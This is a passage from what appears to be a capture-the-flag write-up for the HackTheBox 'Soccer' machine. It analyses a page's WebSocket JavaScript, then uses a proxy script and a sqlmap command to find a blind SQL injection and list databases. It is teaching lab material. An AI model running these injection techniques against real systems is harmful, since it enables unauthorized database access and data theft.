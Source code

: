 ```javascript
    </script>
```

After analysing the source code which shows a javascript code that establish a new WebSocket connection to the server at the URL "ws://soc-player.soccer.htb:9091". When the page is loaded, it sets up an event listener for when the user presses the "Enter" key in the input element with the ID "id". When the "Enter" key is pressed, the function "sendText" is called. The "sendText" function is used to send a message to the server through the WebSocket connection. The message consists of a JSON object with a single property "id" and a value equal to the value of the input element.The code also has a function called "append", which is called when the WebSocket connection receives a message from the server. The function takes the message as an argument and sets the text content of the "p" element to the message.

The input parameter could be vulnerable to sqli injection but we cannot test it using sqlmap.

Let's search google for sql injection in websockets.

<figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html" %}

Grab the script that allows us to use sqlmap and act as a proxy between the websocket and the sqlmap.

Make the necessary changes. `ws_server = "ws://soc-player.soccer.htb:9091"`

and change the `data = '{"id":"%s"}' % message`. Run this script in the one terminal and open another terminal to run sqlmap.

```bash
┌──(kali㉿kali)-[~/Desktop/ctfs/Soccer-htb]                                                                                          
└─$ sqlmap -u "http://localhost:8081/?id=1" -p "id" --dbs   
```

After running the sqlmap we can see the id parameter is vulnerable to blind sql injection. Let's retrieve the databases and their content.

{% hint style="danger" %}
Blind sql injection takes a long time to retrieve content from databases . So be patient.
{% endhint %}

```bash
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] soccer_db
[*] sys

[05:20:12] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/localhost'

[*] ending @ 05:20:12 /2023-01-06/

```

[^1]: WEBSERVER